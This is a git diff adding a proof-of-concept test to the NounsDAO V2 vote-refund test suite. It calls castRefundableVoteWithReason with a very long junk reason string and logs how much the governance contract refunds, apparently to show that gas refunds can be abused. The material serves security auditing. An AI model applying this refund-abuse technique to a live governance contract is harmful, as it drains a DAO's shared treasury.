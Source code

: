     diff --git a/test/governance/NounsDAO/V2/voteRefund.test.ts b/test/governance/NounsDAO/V2/voteRefundPOC.test.ts
    index d34ff4b..4c268a3 100644
    --- a/test/governance/NounsDAO/V2/voteRefund.test.ts
    +++ b/test/governance/NounsDAO/V2/voteRefundPOC.test.ts
    @@ -162,6 +162,30 @@ describe('Vote Refund', () => {
       });
     
       describe('castRefundableVoteWithReason', () => {
    +    it("accepts excessively long reason strings", async () => {
    +      await fundGov();
    +      const balanceBefore = await user.getBalance();
    +      const govBalanceBefore = await ethers.provider.getBalance(gov.address);
    +      const tx = await gov
    +        .connect(user)
    +        .castRefundableVoteWithReason(1, 1, junkString(50_000), {
    +          maxPriorityFeePerGas: MAX_PRIORITY_FEE_CAP,
    +          gasLimit: 24000000,
    +        });
    +      const r = await tx.wait();
    +      const balanceDiff = balanceBefore.sub(await user.getBalance());
    +      const govBalanceDiff = govBalanceBefore.sub(
    +        await ethers.provider.getBalance(gov.address)
    +      );
    +      const govBalanceAfter = await ethers.provider.getBalance(gov.address);
    +      console.log("USER BALANCE DIFF:", ethers.utils.formatEther(balanceDiff));
    +      console.log(
    +        "GOV BALANCE DIFF:",
    +        ethers.utils.formatEther(govBalanceDiff)
    +      );
    +      console.log("TX COST:", ethers.utils.formatEther(await txCostInEth(r)));
    +
    +    });
         it('refunds users with votes', async () => {
           await fundGov();
           const balanceBefore = await user.getBalance();
    @@ -284,6 +308,15 @@ describe('Vote Refund', () => {
         expect(refundEvent!.args!.refundAmount).to.be.closeTo(expectedCost, REFUND_ERROR_MARGIN);
       }
     
    +  function junkString(iterations: number = 100) {
    +    var x = "Ab Cd Ef Gh Ij ";
    +    const y = "Ab Cd Ef Gh Ij";
    +    for (var i = 0; i < iterations; i++) {
    +      x += y;
    +    }
    +    return x;
    +  }
    +
       async function submitProposal(u: SignerWithAddress) {
         await gov
           .connect(u)
